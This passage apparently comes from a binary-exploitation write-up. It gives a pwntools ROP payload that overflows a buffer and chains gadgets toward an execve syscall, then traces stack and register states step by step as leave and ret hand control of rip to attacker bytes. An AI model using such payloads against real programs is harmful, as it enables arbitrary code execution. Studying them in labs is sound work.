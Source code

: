 ```python
payload = b'A'*32 + b'B'*8 + b'C'*8 + b'D'*16
payload = flat(
	b'A'*32,
	b'B'*8,
	p64(pop_rdi),
	p64(0x59),
	p64(xor_rax_rdi),
	p64(pop_rdi),
	p64(first_input),
	p64(pop_rsi),
	p64(0x0),
	p64(pop_rdx),
	p64(0x0),
	p64(syscall),
)
```
|register|address|value|ascii
|-|-|-|-|
|rsp|0xfe158|0x4010e0
|rsi|0xfe160|input_hex (0x4141414141414141)|AAAAAAAA
||0xfe168|input + 8|AAAAAAAA|
||0xfe170|input + 16|AAAAAAAA
||0xfe178|input + 24|AAAAAAAA
|rbp|0xfe180|input + 32 (0x4242424242424242)|BBBBBBBB 
|ret_addr|0xfe188|input + 40 (0x4343434343434343)|CCCCCCCC
||0xfe190|input + 48 (0x4444444444444444)|DDDDDDDD
||0xfe198|input + 56 (0x4444444444444444)|DDDDDDDD
<br>Calling the return will do the following
- `mov rsp,rbp`, delete the last frame

|register|address|value|ascii
|-|-|-|-|
|rsp,rbp|0xfe180|input + 32 (0x4242424242424242)|BBBBBBBB 
|ret_addr|0xfe188|input + 40 (0x4343434343434343)|CCCCCCCC
||0xfe190|input + 48 (0x4444444444444444)|DDDDDDDD
||0xfe198|input + 56 (0x4444444444444444)|DDDDDDDD
<br>

- `pop rbp`, pop from the stack to `rbp` and move  `rsp` to the next address

|register|address|value|ascii
|-|-|-|-|
|rsp (ret_addr)|0xfe188|input + 40 (0x4343434343434343)|CCCCCCCC
||0xfe190|input + 48 (0x4444444444444444)|DDDDDDDD
||0xfe198|input + 56 (0x4444444444444444)|DDDDDDDD
|rbp|0x4242424242424242|
<br>

- `ret`, set `rip` to the value of `rsp` and move `rsp` to the next address

|register|address|value|ascii
|-|-|-|-|
|rsp|0xfe190|input + 48 (0x4444444444444444)|DDDDDDDD
||0xfe198|input + 56 (0x4444444444444444)|DDDDDDDD
|rbp|0x4242424242424242|
`rip` = `0x4343434343434343`
